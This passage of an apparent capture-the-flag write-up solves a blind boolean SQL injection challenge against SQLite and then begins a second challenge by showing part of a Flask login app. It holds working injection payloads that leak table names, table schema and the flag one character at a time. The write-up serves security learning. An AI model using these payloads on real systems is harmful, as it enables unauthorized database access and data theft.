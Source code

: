 ![image](https://user-images.githubusercontent.com/75429369/180778040-6da0b50d-11a9-4d8f-b15d-9da5252a81c1.png)

![image](https://user-images.githubusercontent.com/75429369/180778066-6c9546ca-39af-4d9b-9567-2120419ed143.png)

Another sqli challenge (the description said it all ...), let's test it out

```
' or 1=1 --
```

![image](https://user-images.githubusercontent.com/75429369/180778178-7aab1cc0-90c8-49c0-8037-c699d5a13494.png)

```
' or 1=0 --
```

![image](https://user-images.githubusercontent.com/75429369/180778213-132fced2-1f97-438a-b47f-8c4e9395e1fc.png)

Easy to know it's blind sqli using boolean based, I'll leave the payload for exploit here because I have deleted the script and too lazy to redo it :P

Leak table name
```
' or (select hex(substr(tbl_name,1,1)) from sqlite_master where type='table' and tbl_name NOT like 'sqlite_%') = hex('n') --
```

Leak table info
```
' or (select hex(substr(sql,1,1)) from sqlite_master where type!='meta' and sql NOT NULL and name='names') = hex('a') --
```

Get the flag
```
' or (select hex(substr(name,1,1)) from names) = hex('L') --
```

# Flushed Emoji

The challenge gave us a site and when we click on the flushed emoji button, it will have a pop up which has a login form like this

![image](https://user-images.githubusercontent.com/75429369/180778854-fcc4f3ba-2e6a-4f63-988e-ac12bf3d8e6b.png)

main.py
```python
import sqlite3
from flask import Flask, render_template, render_template_string, redirect, url_for, request
import requests;
import re;

app = Flask(__name__)


def alphanumericalOnly(str):
  return re.sub(r'[^a-zA-Z0-9]', '', str);

@app.route('/', methods=['GET', 'POST'])
def login():
  if request.method == 'POST':

    username = request.form['username']
    password = request.form['password']

  
    if('.' in password):
```